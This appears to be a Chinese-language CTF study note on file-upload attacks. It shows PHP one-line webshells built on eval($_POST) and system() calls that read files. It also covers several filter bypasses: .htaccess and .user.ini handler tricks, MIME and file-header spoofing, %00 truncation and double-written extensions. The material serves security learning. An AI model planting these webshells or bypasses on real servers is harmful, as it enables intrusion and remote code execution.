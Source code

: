 
**其中eval就是执行命令的函数，$_POST[‘a’]就是接收的数据，eval函数把接收的数据当作PHP代码来执行。这样我们就能够让插入了一句话木马的网站执行我们传递过去的任意PHP语句**

### 一般思路：上传木马文件--获取靶机shell--访问服务器（有时可以打开upload.php 察看源码）

无验证时采用一句话木马：
```
<?php @eval($_POST['shell']);?>

<?php phpinfo();?>

<?=`cat *`; 查看源码
```
可以通过shell=phpinfo();查看是否上传成功，再用蚁剑连接该网站shell，密码为’shell‘

### **一.前端绕过**

- 当遇到前端JavaScript脚本过滤时，可以禁用浏览器JavaScript（在火狐浏览器地址栏输入about:config，搜索JavaScript.enable) 
- 或者先改后缀名为白名单文件，在再上传时使用bp抓包将后缀名改为php，再使用命令验证是否上传成功

### **二..htaccess绕过**

- 可用文件绕过， 先将下列代码上传，必须得以.hataccess（不能有前缀）为文件名上传，然后再将文件xxx或者其他格式文件进行上传（详情如下），即可获得shell
```
<FilesMatch "xxx">  
        SetHandler application/x-httpd-php  
</FilesMatch>
//此代码将文件名为xxx(没有后缀名)作为php文件进行解析
```
或者
```
AddType application/x-httpd-php .jpg
将任意jpg文件作为php文件进行解析
```

 .htaccess是一个纯文本文件，它里面存放着Apache服务器配置相关的指令
 
  htaccess主要的作用有：URL重写、自定义错误页面、MIME类型配置以及访问权限控制等。主要体现在伪静态的应用、图片防盗链、自定义404错误页面、阻止/允许特定IP/IP段、目录浏览与主页、禁止访问指定文件类型、文件密码保护等 
  
  .htaccess的用途范围主要针对当前目录

### **三.MIME绕过**

![](upload-1.png)
- 通过bp抓包，将Content-Type：application/octet-stream改成image/jpg（png）等
- 也可以先将文件改成后缀为.jpg,.png等，再在上传时通过bp抓包，将后缀重新改为.php文件

MIME(Multipurpose Internet Mail Extensions)多用途互联网邮件扩展类型。是设定某种扩展名的文件用一种应用程序来打开的方式类型，当该扩展名文件被访问的时候，浏览器会自动使用指定应用程序来打开，多用于指定一些客户端自定义的文件名，以及一些媒体文件打开方式

MIME类型校验就是我们在上传文件到服务端的时候，服务端会对客户端也就是我们上传的文件的Content-Type类型进行检测，如果是白名单所允许的，则可以正常上传，否则上传失败

### **四.文件头检查绕过**

每个文件都有自己的标识符，在文件传输时会进行检测文件头检查，在进行文件上传时不仅对文件格式进行了校验，也对文件内容进行了验证，我们可以把木马文件包含在可验证的文件中来绕过验证

用画图工具创建一个简单的png文件，复杂的会报错，然后在把png文件进行上传，用bp抓包，把脚本内容插入png内容中，并把png文件修改为php文件

或者给文件添加文件头，例如`GIF89a`

### **五.00截断**

php版本小于5.3.29

00截断是操作系统层的漏洞，由于操作系统是C语言或汇编语言编写的，这两种语言在定义字符串时，都是以\\0（即0x00）作为字符串的结尾。操作系统在识别字符串时，当读取到\0字符时，就认为读取到了一个字符串的结束符号。因此，我们可以通过修改数据包，插入\\0字符的方式，达到字符串截断的目的。00截断通常用’%00‘来绕过web软waf的白名单限制

下列以ctfhub为例：

将用户上传的文件名与白名单中的文件（jpg、png、gif）进行比较，并生一个相同扩展名的随机文件名称，无法成功上传，于是采用%00截断，将road后面产生的随机数全部忽略掉
![](upload-3.png)

同时改url和filename
![](upload-2.png)

basename() 函数：返回路径中的文件名部分

### **双写绕过**

与xss中双写绕过类似，当文件上传时，会有一次过滤文件名敏感文字，即可采取双写文件后缀绕过
，例如：shell.pphph

### 没有提交按钮

直接在页面前端编辑html即可

**六、.user.ini绕过**

php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：`PHP_INI_SYSTEM`、`PHP_INI_PERDIR`、`PHP_INI_ALL`、`PHP_INI_USER`

相当于在该目录下的php文件（index.php）里插入了包含语句include('1.png'),例如/upload/index.php

.user.ini文件内容（注意有没有文件头绕过）
```
auto_prepend_file=shell.png
```

shell.png是要包含的文件,即再上传shell.jpg文件，内容为（短标签绕过）
```
<?=eval($_POST['shell']);?>

<?=`ls`?>

<?=(system('nl ../*.ph*'))?>
```

但是上传的路径不是显示路径，而是解析路径，需要按F12查看

**七、短标签绕过**

正则过滤了php

可以用`<?= ?>`代替php标签。`<?= ?>`短标签会直接把php的结果输出，`<? ?>`的功能则和`<?php?>`完全一样

**过滤空格可以用\\t绕过，或者%09也是tab的URL编码**

**方括号被过滤**
```
可以用{ }进行绕过
```

**条件竞争**

[CTF | 天下武功唯快不破之条件竞争漏洞 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/275557.html)